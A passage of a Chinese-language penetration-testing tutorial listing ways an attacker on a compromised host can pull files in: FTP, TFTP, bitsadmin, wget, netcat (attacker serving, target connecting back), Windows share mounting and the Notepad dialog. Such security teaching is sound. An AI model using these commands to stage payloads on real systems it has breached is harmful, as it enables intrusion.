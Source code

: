 	root@kali:~# php test.php

下面的上传文件的方法，可能需要更多得步骤，但是有些情况下却可以绕过去多限制。

**FTP File Download**

一般情况下攻击者使用FTP上传文件需要很多交互的步骤，下面这个 bash脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

	ftp 127.0.0.1
	username
	password
	get file
	exit
	TFTP File Download

在Windows Vista以及以后的版本中默认有FTP，可以使用以下命令运行：

	tftp -i host GET C:\%homepath%\file location_of_file_on_tftp_server
	
**Bitsadmin File Download**

Bitsadmin是Windows命令行工具，用户可以使用它来创建下载或上传的任务。

	bitsadmin /transfer n http://domain/file c:\%homepath%\file
	
**Wget File Download**

Wget是Linux和Windows下的一个工具，允许非交互下载。

	wget http://example.com/file
	
**Netcat File Download**

Netcat在linux上的实例：

攻击者的电脑上输入：

	cat file | nc -l 1234
这个命令会将file的内容输出到本地的1234端口中，然后不论谁连接此端口，file的内容将会发送到连接过来的IP。

目标电脑上的命令：

	nc host_ip 1234 > file
这条命令将连接攻击者的电脑，接受file内容保存。

**Windows Share File Download**

Windows shares可以加载一个驱动器，然后用命令来复制文件。

加载远程驱动：

	 net use x: \\127.0.0.1\share /user:example.com\userID myPassword
	 
**Notepad Dialog Box File Download**

如果你有权限接入一台（远程连接或者物理机）电脑，但是你用户权限不允许打开浏览器，这种方式可以让你快速的从一个URL或者UNC路径当中下载文件。

1.打开notepad 2.点击file - open

在File Name当中输入完整的URL：

![img](http://static.wooyun.org/20140918/2014091813575117384.jpeg)
